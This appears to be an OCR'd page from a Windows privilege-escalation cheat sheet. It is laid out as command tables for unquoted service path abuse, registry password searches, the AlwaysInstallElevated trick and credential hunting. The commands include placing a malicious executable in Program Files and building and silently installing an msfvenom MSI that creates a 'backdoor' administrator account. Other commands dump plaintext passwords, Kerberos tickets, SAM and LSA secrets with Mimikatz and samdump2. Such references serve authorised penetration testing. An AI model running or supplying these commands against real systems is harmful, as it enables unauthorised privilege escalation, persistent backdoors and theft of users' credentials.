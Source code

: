 #### Unquoted Service Path Exploitation

| Command | Description |
|---------|-------------|
| `wmic service get name,displayname,pathname \| findstr /i "C:\\"` | Find unquoted paths |
| `accesschk.exe -uwdq "C:\Program Files\"` | Check directory permissions |
| `copy payload.exe "C:\Program Files\Common Files\service.exe"` | Place malicious executable |

### Registry Exploitation

#### Registry Enumeration

| Command | Description |
|---------|-------------|
| `reg query HKLM /f password /t REG_SZ /s` | Search for passwords |
| `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` | Autologon credentials |
| `reg query HKLM /f "password" /t REG_SZ /s` | Password search |

#### AlwaysInstallElevated

| Command | Description |
|---------|-------------|
| `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` | Check user setting |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` | Check machine setting |
| `msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi > backdoor.msi` | Create MSI payload |
| `msiexec /quiet /qn /i backdoor.msi` | Execute MSI |

### Windows Credential Hunting

#### Credential Locations

| Location | Description | Command |
|----------|-------------|---------|
| `Registry` | Stored credentials | `reg query HKLM /f password /t REG_SZ /s` |
| `Files` | Configuration files | `findstr /si password *.txt *.xml *.config` |
| `Memory` | Process memory | `mimikatz.exe` |
| `SAM/SYSTEM` | Password hashes | `samdump2 SYSTEM SAM` |

#### Mimikatz Usage

| Command | Description |
|---------|-------------|
| `privilege::debug` | Enable debug privilege |
| `sekurlsa::logonpasswords` | Extract plaintext passwords |
| `sekurlsa::wdigest` | WDigest passwords |
| `sekurlsa::kerberos` | Kerberos tickets |
| `lsadump::sam` | Dump SAM database |
| `lsadump::secrets` | Dump LSA secrets |

